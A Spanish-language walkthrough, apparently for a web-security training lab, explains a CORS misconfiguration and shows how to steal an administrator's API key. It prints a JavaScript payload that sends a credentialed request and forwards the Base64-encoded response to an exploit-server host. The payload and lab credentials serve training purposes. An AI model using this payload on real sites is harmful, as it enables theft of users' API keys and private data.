







# 🌐 CORS con reflexión básica del origen

## 📄 Descripción del laboratorio

El laboratorio presenta una **configuración CORS insegura** en el endpoint `/accountDetails`.

El servidor:

* Refleja ciegamente el valor de la cabecera **Origin** en `Access-Control-Allow-Origin`.
* Incluye `Access-Control-Allow-Credentials: true`.

Esto permite que cualquier dominio externo realice **peticiones autenticadas con cookies** y lea la respuesta, exponiendo datos sensibles como la **API key del usuario**.

El objetivo es:

* Explotar la **mala configuración CORS**.
* Robar la **API key del administrador**.
* Resolver el laboratorio.

Credenciales de prueba:

* **wiener : peter**

 

## 📚 Teoría

La **Same-Origin Policy (SOP)** del navegador impide por defecto que JavaScript lea respuestas provenientes de otros dominios.

**CORS (Cross-Origin Resource Sharing)** relaja esta política mediante cabeceras HTTP específicas.

### 📌 Configuración CORS vulnerable

Este laboratorio comete dos errores críticos:

1. **Reflexión del Origin sin validación**

```http
Access-Control-Allow-Origin: <Origin enviado>
```

2. **Permitir credenciales**

```http
Access-Control-Allow-Credentials: true
```

### 📌 Impacto de la combinación

Cuando ambas cabeceras se utilizan juntas, un atacante puede:

* Alojar un **script en un dominio malicioso**.
* Realizar una petición **cross-origin con `withCredentials = true`**.
* Enviar automáticamente las **cookies de sesión de la víctima**.
* Leer la **respuesta completa** (JSON, API keys o datos personales).

Este patrón es muy común en **APIs internas o paneles** que confían en el valor de la cabecera **Origin** enviado por el cliente.

 

## 📝 Práctica

### 🎯 Objetivo

Extraer la **API key del administrador** utilizando un ataque **CORS** desde el **Exploit Server**.

 

### 1️⃣ Análisis inicial

Se inicia sesión con **wiener:peter** y se accede a **My Account**.

Se observa que la aplicación realiza la siguiente petición:

```http
GET /accountDetails
```

La respuesta devuelve **nuestra API key**.


 

### 2️⃣ Análisis de cabeceras CORS

Se intercepta la petición y se envía al **Repeater**.

En la respuesta destacan las siguientes cabeceras:

```http
Access-Control-Allow-Credentials: true
```

<br>

Esta cabecera es clave, ya que permite que el navegador **envíe cookies en peticiones cross-origin**. Sin ella, el ataque no sería viable.
<br><br>

> La cabecera **Access-Control-Allow-Credentials** permite que los navegadores envíen cookies, tokens de sesión u otros datos de autenticación en solicitudes cross-origin. Su valor debe ser `true` para permitir la inclusión de credenciales en las solicitudes.


A continuación se prueba añadiendo manualmente la cabecera:

```http
Origin: https://test.com
```

<br>

Resultado:

El servidor responde con:

```http
Access-Control-Allow-Origin: https://test.com
```

Esto confirma que **cualquier Origin es aceptado y reflejado por el servidor**.

 

### 3️⃣ Construcción del exploit

Se accede al **Exploit Server** y se crea un payload en JavaScript que:

* Realiza una petición **GET** a `/accountDetails`.
* Incluye las **cookies de la víctima** (`withCredentials = true`).
* Codifica la respuesta en **Base64**.
* Envía el resultado a los **logs del Exploit Server**.

Payload utilizado:

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        var encoded = btoa(req.responseText);
        location = "https://TU-EXPLOIT-SERVER.exploit-server.net/?apikey=" + encoded;
    };
    req.open("GET", "https://ID-DEL-LABORATORIO.web-security-academy.net/accountDetails");
    req.withCredentials = true;
    req.send();
</script>
```

Se guarda el exploit pulsando **Store** y posteriormente se selecciona **Deliver exploit to victim**.


 

### 4️⃣ Resultado final

Cuando el administrador carga la página maliciosa:

1. El navegador envía una **petición autenticada**.
2. El servidor acepta el **Origin malicioso**.
3. La respuesta que contiene la **API key** queda accesible para JavaScript.
4. El valor se envía a los **Access logs del Exploit Server**.

En los logs se observa una petición con el parámetro `apikey`.

<br>

Se copia el valor codificado en **Base64** y se decodifica utilizando herramientas como **CyberChef** o la consola del navegador.

<br>

Finalmente se obtiene la **API key del administrador**, que se introduce en el laboratorio para marcarlo como resuelto.


